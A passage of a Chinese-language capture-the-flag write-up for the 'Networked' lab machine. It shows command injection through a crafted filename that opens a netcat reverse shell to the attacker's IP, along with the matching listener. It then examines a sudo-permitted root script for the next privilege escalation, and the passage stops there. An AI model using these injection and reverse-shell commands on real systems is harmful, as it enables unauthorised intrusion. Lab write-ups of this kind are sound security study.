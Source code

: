 这会将文件的路径传递给 exec()函数并删除它。当然，没有对 exec()函数的输入进行验证，因此我们可以滥用它来提升特权。

转到 **/var/www/html/uploads** 目录并创建以下文件。

```
touch '; nc -c bash 10.10.14.12 3333'
```

“；”将结束 exec()函数中的“rm”命令，并运行 nc 命令，这将向我们的机器发送一个反向 shell。

设置一个侦听器来接收反向 shell。

```
nc -nlvp 3333
```

等待 cron 作业运行，我们得到一个 shell！

![](img/acf4844da92c7a69f4f0e4f0345cb65a.png)

将 shell 转换为完全交互式的 shell，并获取 user.txt 标志。

![](img/1b1fa75e1f7241a78af8b585c8892b52.png)

## 古利> Root (ifcfg 权限提升)

我们需要将我们的权限提升到 root。我下载了 *LinEnum* 脚本并运行它。看起来我们可以在没有密码的情况下以 root 用户身份运行下面的文件。

```
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh[+] Possible sudo pwnage!
/usr/local/sbin/changename.sh
```

查看文件的权限。

```
[guly@networked ~]$ ls -la /usr/local/sbin | grep changename.sh
-rwxr-xr-x   1 root root 422 Jul  8  2019 changename.sh
```

我们只有文件的读取和执行权限。让我们来查看文件的内容。

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoFregexp="^[a-zA-Z0-9_\ /-]+$"for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
